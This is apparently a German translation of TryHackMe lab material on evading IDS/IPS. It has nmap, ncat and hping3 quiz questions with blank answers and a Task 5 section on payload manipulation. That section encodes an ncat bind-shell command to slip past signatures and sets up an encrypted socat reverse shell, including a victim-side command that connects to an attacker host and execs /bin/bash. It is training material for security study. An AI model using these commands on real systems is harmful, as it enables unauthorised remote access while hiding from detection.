Welches ist die Option, die wir hinzufügen müssen, um den Quellport auf 161 zu setzen, wenn wir den Nmap-Befehl `nmap -sU -F MACHINE_IP` ausführen?
```

```

Wie setzen wir mit ncat einen Listener auf dem Telnet-Port?
```

```

Wir scannen unser Ziel mit `nmap -sS -F MACHINE_IP`. Welche Option müssen wir hinzufügen, um die IP-Pakete so zu fragmentieren, dass die Datengröße 16 Bytes nicht überschreitet?
```

```

Starten Sie die AttackBox und die angehängte Maschine. Berücksichtigen Sie die folgenden drei Arten von Nmap-Scans:

   - **-sX für Xmas-Scan**
   - **-sF für FIN-Scan**
   - **-sN für Null-Scan**

Welche der oben genannten drei Argumente würde bei einem Scan von MACHINE_IP sinnvolle Ergebnisse liefern?
```

```

Welche Option in hping3 wird verwendet, um eine benutzerdefinierte TCP-Fenstergröße festzulegen?
```

```

# Task 5 - Evasion via Payload Manipulation
Evasion durch Payload-Manipulation umfasst:

- **Obfuskation und Kodierung der Payload** (Obfuscating and encoding the payload)
- **Verschlüsselung des Kommunikationskanals** (Encrypting the communication channel)
- **Ändern des Shellcodes** (Modifying the shellcode)


### Obfuskation und Kodierung der Payload

Da die IDS-Regeln sehr spezifisch sind, können Sie durch kleine Änderungen eine Erkennung vermeiden. Diese Änderungen können das Hinzufügen zusätzlicher Bytes, die Obfuskation der Angriffs-Daten und die Verschlüsselung der Kommunikation umfassen.

Betrachten Sie den Befehl `ncat -lvnp 1234 -e /bin/bash`, bei dem `ncat` auf dem TCP-Port 1234 lauscht und jede eingehende Verbindung an die Bash-Shell weiterleitet. Es gibt einige gängige Transformationen wie Base64, URL-Kodierung und Unicode-Escape-Sequenzen, die Sie auf Ihren Befehl anwenden können, um zu vermeiden, dass IDS/IPS-Signaturen ausgelöst werden.

**Kodierung in Base64-Format**

Sie können eines der vielen Online-Tools verwenden, um Ihre Eingabe in Base64 zu kodieren. Alternativ können Sie das auf Linux-Systemen häufig vorkommende `base64`-Kommando verwenden.
```shell
pentester@TryHackMe$ cat input.txt
ncat -lvnp 1234 -e /bin/bash
$ base64 input.txt
bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA==
```
Der Befehl `ncat -lvnp 1234 -e /bin/bash` wird in Base64 wie folgt kodiert: `bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA==`.

**URL-Kodierung**

URL-Kodierung konvertiert bestimmte Zeichen in die Form `%HH`, wobei `HH` die hexadezimale ASCII-Darstellung ist. Englische Buchstaben, Punkt, Bindestrich und Unterstrich sind nicht betroffen. Weitere Informationen finden Sie in [section 2.4 der RFC 3986](https://datatracker.ietf.org/doc/html/rfc3986#section-2.4).

Ein nützliches Programm, das Sie leicht auf Ihrem Linux-System installieren können, ist `urlencode`. Alternativ können Sie entweder einen Online-Dienst nutzen oder nach ähnlichen Programmen für MS Windows und macOS suchen. Um `urlencode` auf der AttackBox zu installieren, können Sie den Befehl `apt install gridsite-clients` ausführen.
```shell
pentester@TryHackMe$ urlencode ncat -lvnp 1234 -e /bin/bash
ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash
```
Der Befehl `ncat -lvnp 1234 -e /bin/bash` wird nach der URL-Kodierung zu `ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash`. Je nachdem, auf welche Signaturen das IDS/IPS abgestimmt ist, kann URL-Kodierung helfen, die Erkennung zu umgehen.

**Verwenden von Escaped Unicode**

Einige Anwendungen verarbeiten Ihre Eingaben und führen sie korrekt aus, wenn Sie escaped Unicode verwenden. Es gibt mehrere Möglichkeiten, escaped Unicode zu nutzen, abhängig vom System, das die Eingabezeichenfolge verarbeitet. Zum Beispiel können Sie [CyberChef](https://icyberchef.com/) verwenden, um die Escape Unicode Characters-Rezept auszuwählen und zu konfigurieren, wie in der folgenden Abbildung gezeigt:

1. **Suchen Sie nach Escape Unicode Characters.**
2. **Ziehen Sie es in die Rezeptspalte.**
3. **Stellen Sie sicher, dass ein Häkchen bei „Encode all chars with a prefix of `\u`“ gesetzt ist.**
4. **Stellen Sie sicher, dass ein Häkchen bei „Uppercase hex with a padding of 4“ gesetzt ist.**  

**Verwenden von Escaped Unicode**

Wenn Sie das Format `\uXXXX` verwenden, wird `ncat -lvnp 1234 -e /bin/bash` zu `\u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068`. Dies ist eine drastische Umwandlung, die Ihnen helfen würde, die Erkennung zu umgehen, vorausgesetzt, das Zielsystem interpretiert es korrekt und führt es aus.

**Verschlüsseln des Kommunikationskanals**

Da ein IDS/IPS verschlüsselte Daten nicht inspiziert, kann ein Angreifer Verschlüsselung nutzen, um die Erkennung zu umgehen. Im Gegensatz zur Kodierung erfordert Verschlüsselung einen Verschlüsselungsschlüssel.

Ein direkter Ansatz besteht darin, den erforderlichen Verschlüsselungsschlüssel auf dem Angreifer-System zu erstellen und `socat` so einzurichten, dass es den Verschlüsselungsschlüssel verwendet, um die Verschlüsselung zu erzwingen, während es auf eingehende Verbindungen hört. Eine verschlüsselte Reverse-Shell kann in drei Schritten durchgeführt werden:

1. **Erstellen des Schlüssels**

   Auf der AttackBox oder einem anderen Linux-System können wir den Schlüssel mit `openssl` erstellen.

   ```bash
   openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
   ```

   Die Argumente des obigen Befehls sind:

   - `req` gibt an, dass dies eine Zertifikatsanforderung ist. Offensichtlich werden wir unser Zertifikat nicht zur Unterzeichnung einreichen.
   - `-x509` gibt an, dass wir ein X.509-Zertifikat wollen.
   - `-newkey rsa:4096` erstellt eine neue Zertifikatsanforderung und einen neuen privaten Schlüssel mit RSA, wobei die Schlüssellänge 4096 Bit beträgt. (Sie können andere Optionen für die RSA-Schlüssellänge verwenden, z. B. `-newkey rsa:2048`.)
   - `-days 365` zeigt an, dass die Gültigkeit unseres Zertifikats ein Jahr beträgt.
   - `-subj` legt Daten wie Organisation und Land über die Befehlszeile fest.
   - `-nodes` vereinfacht unseren Befehl und verschlüsselt den privaten Schlüssel nicht.
   - `-keyout PRIVATE_KEY` gibt den Dateinamen an, unter dem wir unseren privaten Schlüssel speichern möchten.
   - `-out CERTIFICATE` gibt den Dateinamen an, unter dem wir die Zertifikatsanforderung speichern möchten.

   Der obige Befehl gibt zurück:

   - Privater Schlüssel: `thm-reverse.key`
   - Zertifikat: `thm-reverse.crt`

   Die Privacy Enhanced Mail (PEM) `.pem`-Datei erfordert die Verkettung der privaten Schlüssel-`.key`- und Zertifikats-`.crt`-Dateien. Wir können `cat` verwenden, um unsere PEM-Datei aus den beiden gerade erstellten Dateien zu erstellen:

   ```bash
   cat thm-reverse.key thm-reverse.crt > thm-reverse.pem
   ```

2. **Hören auf dem Angreifer-System**

   Mit der bereitstehenden PEM-Datei können wir beginnen, während der Verwendung des Schlüssels zur Verschlüsselung der Kommunikation mit dem Client zu lauschen.

   ```bash
   socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
   ```

   Wenn Sie mit `socat` nicht vertraut sind, sind die verwendeten Optionen:

   - `-d -d` liefert einige Debugging-Daten (Fehler-, Warnungs- und Hinweisnachrichten).
   - `OPENSSL-LISTEN:PORT_NUM` gibt an, dass die Verbindung mit OPENSSL verschlüsselt wird.
   - `cert=PEM_FILE` gibt die PEM-Datei (Zertifikat und privater Schlüssel) an, um die verschlüsselte Verbindung herzustellen.
   - `verify=0` deaktiviert die Überprüfung des Zertifikats des Partners.
   - `fork` erstellt einen Unterprozess, um jede neue Verbindung zu behandeln.

3. **Verbinden mit dem Angreifer-System**

   Auf dem Opfer-System können Sie den folgenden Befehl ausführen:

   ```bash
   socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash
   ```

   Beachten Sie, dass `EXEC` das angegebene Programm aufruft.

Lassen uns dies demonstrieren. Auf dem System des Angreifers haben wir folgende Schritte durchgeführt:
```shell
pentester@TryHackMe$ openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
Generating a RSA private key
........................++++
......++++
writing new private key to 'thm-reverse.key'
-----
pentester@TryHackMe$ ls
thm-reverse.crt  thm-reverse.key
pentester@TryHackMe$ cat thm-reverse.key thm-reverse.crt > thm-reverse.pem
pentester@TryHackMe$ socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
2022/02/24 13:39:07 socat[1208] W ioctl(6, IOCTL_VM_SOCKETS_GET_LOCAL_CID, ...): Inappropriate ioctl for device
2022/02/24 13:39:07 socat[1208] N listening on AF=2 0.0.0.0:4443
```
